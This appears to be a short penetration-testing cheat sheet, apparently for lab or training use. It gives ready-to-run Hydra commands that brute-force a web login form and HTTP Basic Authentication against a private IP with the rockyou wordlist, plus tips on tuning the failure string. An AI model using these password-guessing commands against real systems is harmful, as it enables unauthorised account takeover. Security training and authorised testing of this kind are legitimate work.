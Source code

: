 ```yaml
---
IP_TARGET: 192.168.215.220
STRING: Login failed. Invalid
LOGIN_PG: index.php
PORT: "80"
USER: admin
---
```

HTTP POST request:
- You must first capture a POST request and paste the username and password fields into the hydra command
- To reduce false positives, we should always try to avoid keywords such as _password_ or _username_ by shortening the condition string appropriately.
- hydra -l user -P /usr/share/wordlists/rockyou.txt <span id="IP_TARGET"/>192.168.215.220<span type="end"/> http-post-form "/<span id="LOGIN_PG"/>index.php<span type="end"/>:fm_usr=user&fm_pwd=^PASS^:<span id="STRING"/>Login failed. Invalid<span type="end"/>"

Basic HTTP Authenitication:
![[Pasted image 20241231104019.png]]
- hydra -l <span id="USER"/>admin<span type="end"/> -P /usr/share/wordlists/rockyou.txt <span id="IP_TARGET"/>192.168.215.220<span type="end"/> http-get /